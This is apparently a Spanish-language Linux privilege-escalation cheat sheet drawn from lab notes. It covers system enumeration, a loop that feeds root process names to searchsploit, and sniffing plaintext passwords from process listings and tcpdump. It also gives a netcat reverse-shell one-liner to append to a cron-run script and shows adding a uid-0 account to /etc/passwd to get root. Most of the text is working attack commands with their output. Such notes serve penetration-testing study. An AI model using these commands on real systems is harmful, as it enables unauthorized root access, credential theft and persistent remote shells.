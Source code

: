 ```sh
cat /etc/fstab
mount
lsblk
lsmod
/sbin/modinfo [KERNEL MODULE]
env
cat .bashrc
```

## SearchSploit root Proceses

```sh
cat process.txt | grep root | cut -d " " -f 9 | grep "\[" | cut -d "[" -f 2 | cut -d "]" -f1 | cut -d "/" -f1  >> root_process.txt 
cat root_process.txt | sort -u > proccess.txt 
for i in `cat process.txt` ; do  searchsploit %i ; done
```
## Linux

## Procesos 

joe@debian-privesc:~$ watch -n 1 "ps -aux | grep pass"
...
joe 16867 0.0 0.1 6352 2996 pts/0 S+ 05:41 0:00 watch -n 1 ps -aux | 
grep pass
root 16880 0.0 0.0 2384 756 ? S 05:41 0:00 sh -c sshpass -p 
'Lab123' ssh -t eve@127.0.0.1 'sleep 5;exit'
root 16881 0.0 0.0 2356 1640 ? S 05:41 0:00 sshpass -p zzzzzz ssh 
-t eve@127.0.0.1 sleep 5;exit

joe@debian-privesc:~$ sudo tcpdump -i lo -A | grep "pass"
[sudo] password for joe:
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...{...zuser:root,pass:lab

## Cronjobs 

grep "CRON" /var/log/syslog

Si tenemos acceso a un ejecutable entonces podemos poner el siguiente codigo

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" >> user_backups.sh

## passwd

joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g
joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> 
/etc/passwd
joe@debian-privesc:~$ su root2
Password: w00t
root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
